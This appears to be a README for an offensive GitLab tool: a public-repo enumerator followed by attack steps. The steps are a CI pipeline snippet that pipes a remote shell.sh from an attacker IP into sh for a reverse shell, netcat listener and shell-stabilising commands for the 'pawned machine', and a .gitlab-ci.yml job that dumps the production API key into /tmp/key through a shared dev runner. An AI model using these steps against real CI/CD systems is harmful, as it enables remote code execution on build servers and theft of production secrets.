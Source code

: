 This tools helps in efficiently enumerating the publicly visible repos

Use the above script and Gitlab API for enumuration.

Donot change the file name "enumerator.py"

Note: Make sure to install the Gitlab pip package using pip3 install python-gitlab==3.15.0

=======================================
replace the below lines in the .gitlab-ci.yml  file to get the reverse shell

pipeline {
    agent any
    stages {
       stage('build') {
          steps {
              sh '''
                    curl http://10.50.3.65:8000/shell.sh | sh
                '''                 
              }             
          }
       }       
    }


=======================================
simple reverse shell.sh

Update the attacker_Ip and port for to make connection
in the attacker machine type this 

nc -lvn PORT

After the reverse connection is established stabilize the shell using python 

Type the below command in the pawned machine

python3 -c 'import pty; pty.spawn("/bin/bash")'

after executing the above python shell do "ctrl + z" #terminate the shell and execute the below command in the attacker machine to connect back to the victim

stty raw -echo; fg

=======================================

Extracting the Production API key

If gitlab runners are same in the prod and dev server then we can able to extract the prod API key using the dev server.

Let say if the main is protected, then we cant do commeit and merge to the main branch, if we can able to do commits in dev branch, if the dev branch is also using the same running which prod is running
then we can use the dev branch .gitlab-ci.yml file to extract the prod api key.

Replace the .gitlab-ci.yml file in the dev as below, the below command might create the key in tmp/key directory of dev server, while commiting the changes look for the pipelines and jobs wether running or pending and manual. If its manual run the job manually, it might triger the script to run.

=======================================
""
  stages:
  - test
  - deploy

test:
  stage: test
  script:
    - 'echo "Testing Application: ${CI_PROJECT_NAME}"'

production:
  stage: deploy
  when: manual
  script:
    - 'echo "Deploying to ${CI_ENVIRONMENT_NAME}"'
    - 'echo "${API_KEY}" > /tmp/key'
    - 'echo "Ready to use the API KEY"'
  environment:
    name: ${CI_JOB_NAME}
""
=======================================
